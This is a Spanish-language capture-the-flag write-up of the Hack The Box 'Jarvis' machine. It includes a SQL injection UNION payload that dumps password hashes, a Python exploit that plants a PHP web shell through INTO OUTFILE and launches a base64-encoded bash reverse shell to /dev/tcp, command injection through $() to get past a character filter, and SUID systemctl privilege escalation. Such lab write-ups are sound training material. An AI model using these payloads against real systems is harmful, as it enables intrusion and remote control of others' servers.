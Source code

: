 ```yaml
---
title : Máquina|Jarvis|HTB|SQL|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Jarvis/Jarvis0.png" style="border-radius: 190px; width: 169px" alt="Jarvis">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Media </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/194" style="color: lightblue;">Jarvis</a></p>
    </div>
</div>

<h2><font color="white"><center># Jarvis</center></font></h2>
<br>


* <p>Vemos que es una maquina Linux a lo que nos enfrentamos por el TTL.</p>
>
<img src="imgs/Jarvis/Jarvis1.png">

* <p> Empezamos enumerando los puertos del servidor.</p>
>
<img src="imgs/Jarvis/Jarvis2.png">

* <p> Ahora procedemos a enumerar las tecnologías.</p>
>
<img src="imgs/Jarvis/Jarvis3.png">

* <p> Enumeramos directorios y archivos activos de la pagina web.</p>
>
<img src="imgs/Jarvis/Jarvis4.png">
>

* <p> Observamos el phpmyadmin y probamos credenciales por defecto.</p>
>
<img src="imgs/Jarvis/Jarvis5.png">

* <p> Al estar enumerando la pagina mire que era susceptible a un ataque de inyección sql.</p>
>
<img src="imgs/Jarvis/Jarvis6.png">
>
`union select 1,2,group_concat(User,0x3a,Password),4,5,6,7 from mysql.user-- -`

* <p> Procedemos a descifrar el hash que es MySQL 4.1, y sacamos como resultado la credencial: imissyou</p>
<img src="imgs/Jarvis/Jarvis7.png">


* <p> Procedemos a conectarnos en el panel previamente descubierto anteriormente.</p>
>
<img src="imgs/Jarvis/Jarvis8.png">

* <p> Procedemos a ver en searchsploit si hay exploits dedicados a esta version de phpmyadmin 4.8.0, vemos que puede ser susceptible a LFI.</p>
>
<img src="imgs/Jarvis/Jarvis9.png">
* <p> Vemos la posterior ruta en la que este exploit acude para poder tener un LFI y observamos la siguiente url</p>
>
<img src="imgs/Jarvis/Jarvis10.png">

* <p> Alistamos el /etc/passwd y vemos que si es vulnerable a un LFI</p>
>
<img src="imgs/Jarvis/Jarvis11.png">

* <p>No vemos nada relevante asi que procedemos a cargar un archivo por medio de la inyección SQL en la pagina web </p>
>
<img src="imgs/Jarvis/Jarvis12.png">

* <p>Vemos que nos interpreta el código.</p>
>
<img src="imgs/Jarvis/Jarvis13.png">

* <p>Posteriormente nos creamos un "exploit" para que nos automatice todo, lo que hace es codificar en base64 una reverse Shell, lanza la petición para que se aloje en el directorio 10.10.10.143/rem.php para posteriormente lanza otra petición a ese directorio del sistema mientras nos ponemos en escucha por el puerto 5550.</p>

```python
#!/usr/bin/python3
import requests
import sys
import signal
import time
import threading
from pwn import *

def salida(sig, frame):
	print("saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, salida)

#Cree su propia Shell base64 : echo "/bin/bash -i >& /dev/tcp/IP/5550 0>&1" | base64 
base64 = "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNTU1MCAwPiYxCg=="
port = 5550
url_ = "http://10.10.10.143"
file = "rem.php"

create_file = "http://10.10.10.143/room.php?cod=10%20union%20select%201,2,%22%3C?php%20system(%27echo%20{base64}%20|base64%20-d%20|bash%20%27);?%3E%22,4,5,6,7%20into%20outfile%20%22/var/www/html/{file}%22--%20-"
def pwned_shell():
    get_file = requests.get(create_file)
    get_shell = requests.get(f"{url_}/{file}")

try:
    threading.Thread(target=pwned_shell, args=()).start()
except Exception as e:
    log.error(str(e))

server = listen(port, timeout=20).wait_for_connection()
server.interactive()

```

* exploit.py
>
<img src="imgs/Jarvis/Jarvis15.png">

* <p> Procedemos a ejecutar el exploit. </p>


<video width="600" controls style="margin-left: 80px;border-radius: 12px;">
  <source src="imgs/Jarvis/video.mp4" type="video/mp4">
  Tu navegador no soporta la reproducción de video.
</video>

* <p> Como quiero crearme una full tty no usare este exploit, sino que me pondré en escucha no netcat por el puerto 5550 y ejecuto el script.</p>
>
<img src="imgs/Jarvis/Jarvis16.png">

* <p> Procedemos cone el tratemiento de la Shell para tener una full tty.</p>
>
<img src="imgs/Jarvis/Jarvis18.png">
<img src="imgs/Jarvis/Jarvis19.png">
<img src="imgs/Jarvis/Jarvis21.png">

* <p>En este punto podríamos ver la flag de jarvis.</p>
>
<img src="imgs/Jarvis/Jarvis35.png">

* <p>Vemos que tenemos permiso para ejecutar un archivo en python siendo el usuario pepper.</p>
>
<img src="imgs/Jarvis/Jarvis36.png">

* <p>EL archivo python no esta del todo bien sanitizado. no me permite ejecutar ['&', ';', '-', '`', '||', '|'] pero no necesariamente tengo que usar estos caracteres para inyectar comandos y escalar privilegios, que paso si ahora ejecuto </p>
>
<img src="imgs/Jarvis/Jarvis22.png">

* <p>Vemos que al inyectar en el campo un $(echo "2"),recibimos la traza ICMP a mi interfaz 10.10.16.2 tun0.</p>
>
<img src="imgs/Jarvis/Jarvis23.png">

* <p>Si me hago una reverse Shell no podría ganar acceso al sistema por que no me permite el &, entonces para hacerle un Bypass a esta solicitud me creo un archivo temporal, en este almacenare la reverse Shell:</p>
>
<img src="imgs/Jarvis/Jarvis25.png">

* <p>Posterior mente me ejecuto el archivo. y ganamos acceso al sistema siendo pepper.</p>
>
<img src="imgs/Jarvis/Jarvis26.png">

* <p>Hacemos la Shell una full tty</p>
>
<img src="imgs/Jarvis/Jarvis27.png">

* <p>Ajustamos las filas y columnas.</p>
>
<img src="imgs/Jarvis/Jarvis30.png">

* <p>Vemos que tiene permisos SUID a systemctl lo que hace vulnerable, podemos crearnos una tarea siendo root.</p>
>
<img src="imgs/Jarvis/Jarvis31.png">

* <p>Estructura básica de una tarea systemctl</p>

```ruby
[Unit]
Description=Descripción del servicio
After=network.target

[Service]
Type=oneshot
ExecStart=/ruta/a/tu/programa

[Install]
WantedBy=multi-user.target
```

* <p>Configuramos los archivos y ganamos posteriormente acceso al sistema</p>
>
<img src="imgs/Jarvis/Jarvis33.png">

* <p>Posteriormente podemos ver la flag de root.</p>
>
<img src="imgs/Jarvis/Jarvis34.png">
